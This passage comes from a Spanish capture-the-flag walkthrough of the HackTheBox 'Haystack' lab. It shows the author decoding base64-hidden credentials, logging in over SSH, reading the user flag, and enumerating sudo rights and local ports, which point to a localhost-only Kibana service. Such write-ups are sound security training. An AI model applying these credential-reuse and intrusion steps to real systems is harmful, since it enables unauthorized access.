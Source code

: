 ```bash
❯ echo -n "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 -d;echo
pass: spanish.is.key
❯ echo -n "dXNlcjogc2VjdXJpdHkg" | base64 -d;echo
user: security
```
Podrían ser las credenciales de acceso por ssh:
```bash
❯ ssh security@10.10.10.115
The authenticity of host '10.10.10.115 (10.10.10.115)' can't be established.
ECDSA key fingerprint is SHA256:ihn2fPA4jrn1hytN0y9Z3vKpIKuL4YYe3yuESD76JeA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.115' (ECDSA) to the list of known hosts.
security@10.10.10.115's password: 
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$ 
```
Y sí, estamos dentro.

```bash
[security@haystack ~]$ export TERM=xterm
[security@haystack ~]$ ls -l
total 4
-rw-r--r--. 1 security security 33 jun 19 04:19 user.txt
[security@haystack ~]$ cat user.txt
a44485ccd00c390dc1f149d******
```

## Escalada de privilegios

```bash
[security@haystack ~]$ id
uid=1000(security) gid=1000(security) grupos=1000(security) contexto=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[security@haystack ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for security: 
Sorry, user security may not run sudo on haystack.
```
Podría seguir con el procedimiento habitual de la escalada peeero recuerda que antes encontramos una vulnerabilidad en **kibana** pero no teníamos acceso al servicio:
```bash
[security@haystack ~]$ ss -nltp
State      Recv-Q Send-Q                       Local Address:Port 
LISTEN     0      128                                   *:80   
LISTEN     0      128                                   *:9200 
LISTEN     0      128                                   *:22   
LISTEN     0      128                                   127.0.0.1:5601 
LISTEN     0      128                                   ::ffff:127.0.0.1:9000 
LISTEN     0      128                                   :::80   
LISTEN     0      128                                   ::ffff:127.0.0.1:9300 
LISTEN     0      128                                   :::22   
LISTEN     0      50                                   ::ffff:127.0.0.1:9600 
```
